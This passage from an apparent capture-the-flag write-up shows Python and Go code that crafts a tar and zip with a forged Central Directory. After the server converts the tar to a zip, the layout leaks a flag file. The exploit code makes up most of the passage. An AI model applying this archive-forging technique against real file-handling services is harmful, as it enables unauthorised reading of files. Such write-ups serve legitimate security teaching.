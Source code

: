 For the first zip we actually used a tar. But this gets converted into a zip by the server so the same principle applies and we still called it zip1:

```python
zip1_fo = io.BytesIO(random.randbytes(17592)) # manually binsearched this value until it looked right in xxd *shrug*
zip1_ti = tarfile.TarInfo(name='z' * 1585) # use large filename to hold EOCD of second zip
zip1_ti.size = len(zip1_fo.getvalue())
# use flag.tar.tar so that it partially overwrites flag content tarfile as a zip at flag.tar
with tarfile.open('flag.tar.tar', 'w') as tar:
    tar.addfile(zip1_ti, zip1_fo)
```

Note that this file is waaaaay larger than it needs to be, but we started out with some big numbers when testing and it just stuck.

The second zip was made with Go because of the null byte problems:

```go
// Create
zipEntry, err := zipWriter.Create("PK\x01\x02" + // header
  "\x01\x01" + // creation version
  "\x01\x01" + // extract version
  "\x01\x01" + // bitflag
  "\x00\x00" + // compression method (none)
  "\x01\x01\x01\x01" + // last modified date
  "\x02\x02\x02\x02" + // crc
  "\x01\x01\x01\x01" + // size compressed (needs to be large enough to get zip data)
  "\x01\x01\x01\x01" + // uncompressed size (same as compressed for none type)
  "\x01\x01" + // filename length
  "\x01\x01" + // extra field
  "\x01\x01" + // file comment
  "\x01\x01" + // number of disk
  "\x01\x01" + // internal file attr
  "\x01\x01\x01\x01" + // external file attr
  "\x00\x00\x00\x00" + // offset of loc (point to beginning of file w/ valid loc header)
  strings.Repeat("a", 513) + // filename
  strings.Repeat("b", 513) + // extra field
  strings.Repeat("c", 513)) // comment

data := make([]byte, 17546)
rand.Read(data)
zipEntry.Write(data)
```

The filename of the entry in the second zip becomes the new Central Directory that the first zip's End of Central Directory points to. There are a lot of`\x01`'s because we had almost given up on creating a working zip/tar that had null bytes in the filename.

This is enough to leak the flag! The End of Central Directory will point to the filename of the second zip and the second zip will point to the beginning of the file, but sets compression type to "none" and sets the compressed/uncompressed size to `\x01\x01\x01\x01` which is 16843009, plenty to pull the whole file down.

And finally, running the `solve.py` script after running `go run zip.go` gives the flag!
